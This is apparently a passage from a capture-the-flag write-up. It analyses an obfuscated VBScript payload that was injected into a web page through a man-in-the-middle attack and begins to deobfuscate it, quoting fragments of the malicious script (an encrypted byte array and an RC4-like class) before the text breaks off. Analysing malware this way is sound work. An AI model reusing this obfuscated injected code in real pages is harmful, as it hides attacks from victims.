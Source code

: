 ![a](./step4_pcap.png)

Looks like an obfuscated script was injected in the page! Someone fell victim to a MitM attack and should have used HTTPS...


Deobfuscating the script
========================
The payload looked quite ugly but being VBS is actually rather easy to deobfuscate.

First, there are a few constants:
```vb
Dim IIIIIIIIIIIIIIIIIIIIIIIII : IIIIIIIIIIIIIIIIIIIIIIIII = Array(&HF6,&H87,&HFB,&H6,&H3F,&H7E,&HA6,&HC2,&H4A,&H9B,&H3C,&HF7,&HC7,&HE7,&HDD,&H28,&HAC,&H8A,&H95,&H45,&H99,&H1,[ .. snip 25kB .. ]):
IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = navigator.userAgent
```

Then there's a class defined:
```vb
Class IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
    Public IIIIIIIIIIIIIIII,IIIIIIIIIIIIIII
    Public IIIIIIIIIIIIIIIIIIIIII

    Private Sub Class_Initialize
      ReDim IIIIIIIIIIIIIIIIIIIIII(256)
    End Sub

    Public Sub IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
      Dim IIIIIIIIIIIIIIIIIIIIIIIIIIIIII

      IIIIIIIIIIIIIIII = 0
      IIIIIIIIIIIIIII = 0

      For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIII) - 1
```